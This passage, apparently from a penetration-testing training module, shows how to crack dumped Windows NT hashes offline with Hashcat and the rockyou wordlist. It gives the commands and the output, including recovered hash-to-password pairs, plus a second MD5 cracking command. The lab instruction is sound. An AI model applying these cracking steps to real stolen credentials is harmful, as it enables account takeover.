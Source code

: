 Now that the NT hashes are in our text file (`hashestocrack.txt`), we can use Hashcat to crack them.

#### Running Hashcat against NT Hashes

Hashcat has many different modes we can use. Selecting a mode is largely dependent on the type of attack and hash type we want to crack. Covering each mode is beyond the scope of this module. We will focus on using `-m` to select the hash type `1000` to crack our NT hashes (also referred to as NTLM-based hashes). We can refer to Hashcat's [wiki page](https://hashcat.net/wiki/doku.php?id=example_hashes) or the man page to see the supported hash types and their associated number. We will use the infamous rockyou.txt wordlist mentioned in the `Credential Storage` section of this module.


```python
TheCyberScythe@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

f7eb9c06fafaa23c4bcf22ba6781c1e2:dragon          
6f8c3f4d3869a10f3b4f0522f537fd33:iloveme         
184ecdda8cf1dd238d438c4aea4d560d:adrian          
31d6cfe0d16ae931b73c59d7e0c089c0:                
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: dumpedhashes.txt
Time.Started.....: Tue Dec 14 14:16:56 2021 (0 secs)
Time.Estimated...: Tue Dec 14 14:16:56 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    14284 H/s (0.63ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 5/5 (100.00%) Digests
Progress.........: 8192/14344385 (0.06%)
Rejected.........: 0/8192 (0.00%)
Restore.Point....: 4096/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: newzealand -> whitetiger

Started: Tue Dec 14 14:16:50 2021
Stopped: Tue Dec 14 14:16:58 2021
```


```python
$ hashcat -a 0 -m 0 e3e3ec5831ad5e7288241960e5d4fdb8 /usr/share/wordlists/rockyou.txt
```
